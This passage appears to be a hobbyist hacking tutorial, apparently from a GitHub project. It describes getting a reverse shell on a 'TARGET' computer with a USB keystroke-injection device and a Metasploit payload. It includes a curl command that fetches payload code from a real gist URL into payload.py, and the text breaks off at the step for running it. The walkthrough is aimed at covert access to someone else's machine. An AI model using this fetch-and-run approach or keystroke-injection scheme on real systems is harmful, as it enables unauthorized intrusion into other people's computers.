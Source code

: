 If I have access to this, I basically can do whatever the current user logged in can do. I usually like using the "say" command on Mac to make the computer say something on speaker.

But how do we get access to the TARGETS shell from our computer? Well we can't connect to them because it's locked, instead, we have the TARGET connect to us. This is called a reverse shell.

But how do we get the TARGET to connect to us? Well we can have the target computer run a command or program.

Then the question becomes how do we get the TARGET to run that command or program?

What you see here is what hacking is, it's not one step. Its multiple steps and "hacks" that lead to the end result.

The way that I want to do this, is use a usb device that pretends its a keyboard. Which Windows will just say "Do whatever you want", then use that to quickly type in and run the command. This is called injecting keystrokes. Since we are using the USB to pretend to be the user.

What kind of program do we need the TARGET computer to run? We need it to run something that is called a payload, once the payload is run it will connect to our server, download more information to the TARGET and then act like the middle-man.

We will create the payload using the Metasploit framework, and the server it will connect to will also be with Metasploit.

[Metasploit | Penetration Testing Software, Pen Testing Security | Metasploit](https://www.metasploit.com/)

# Download and run the code with one line

When we have the opportunity to run a command on the TARGET computer, we don't want to have to find the file online, download it, then run it. Instead we want to be able to do everything in one line.

The tool 'Curl' is used to transfer data using URLS. So we can download and save the python file, without ever opening a browser (like Chrome or Firefox)

```bash
curl https://google.com > thisFile.txt
```

The above command will download whatever is on [google.com](http://google.com) which would basically be the logo, some links and a search bar. And then will save it to "thisFile.txt"

We can use GitHub to save the code as a link:

[Discover gists](https://gist.github.com/)

Once the payload code is pasted in the box. Click save, then click raw. That will provide us with the RAW code. Meaning nothing but the code.

Now we can CURL that link and save it to the python file. Mine would look like the following

```bash
curl https://gist.githubusercontent.com/lennymelnik/fac58ce5a79fd078048607f843b16a45/raw/ba7296a7f4dd2aae9dc3de1608b48c375b6ac7ee/gistfile1.txt > payload.py
```

then in order to run the code we just have to do
